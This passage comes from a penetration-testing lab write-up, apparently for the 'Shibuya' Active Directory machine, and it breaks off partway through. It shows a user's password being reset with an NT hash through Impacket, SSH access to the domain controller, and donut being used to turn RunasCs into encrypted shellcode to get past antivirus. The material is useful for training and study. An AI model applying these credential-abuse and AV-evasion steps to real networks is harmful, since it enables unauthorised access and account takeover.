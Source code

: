 ```

RustHound Enumeration Completed at 01:28:06 on 02/23/25! Happy Graphing!
```

We can confirm that `simon.watson` has ssh permissions

![](2.png)


Using TGT for ssh didn't work (might be skill issue), so we can change the password and connect to host via `ssh`. 
```
└─$ changepasswd.py shibuya.vl/simon.watson@AWSJPDC0522.shibuya.vl -hashes ':<REDACTED>' -newpass 'P@ssw0rd!!!'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Changing the password of shibuya.vl\simon.watson
[*] Connecting to DCE/RPC as shibuya.vl\simon.watson
[*] Password was changed successfully.
```
```
└─$ ssh simon.watson@shibuya.vl                                                      
simon.watson@shibuya.vl's password: 
Microsoft Windows [Version 10.0.20348.3207]
(c) Microsoft Corporation. All rights reserved.

shibuya\simon.watson@AWSJPDC0522 C:\Users\simon.watson>

```

## Root
Enumeration shows nothing. Also looks like there are no sessions.
```
PS C:\Users\simon.watson> qwinsta *
No session exists for *
PS C:\Users\simon.watson> 
```
But I was hinted that there should be sessions and there's a [post](https://security.stackexchange.com/questions/272327/cannot-qwinsta-during-winrm-but-it-works-when-run-under-newcredentials-logo) explaining how to view sessions using `RunasCs.exe`. Let's run [donut](https://github.com/TheWover/donut) on [RunasCs](https://github.com/antonioCoco/RunasCs) with parameters, since there's AV.
```
└─$  donut -i RunasCs.exe -p "x x qwinsta -l 9" -o runascs.bin 

  [ Donut shellcode generator v1 (built Oct 23 2024 07:56:47)
  [ Copyright (c) 2019-2021 TheWover, Odzhan

  [ Instance type : Embedded
  [ Module file   : "/home/kali/tools/red-team/c2-toolkit/RunasCs.exe"
  [ Entropy       : Random names + Encryption
  [ File type     : .NET EXE
  [ Parameters    : x x qwinsta -l 9
  [ Target CPU    : x86+amd64
  [ AMSI/WDLP/ETW : continue
  [ PE Headers    : overwrite
  [ Shellcode     : "runascs.bin"
  [ Exit          : Thread

```
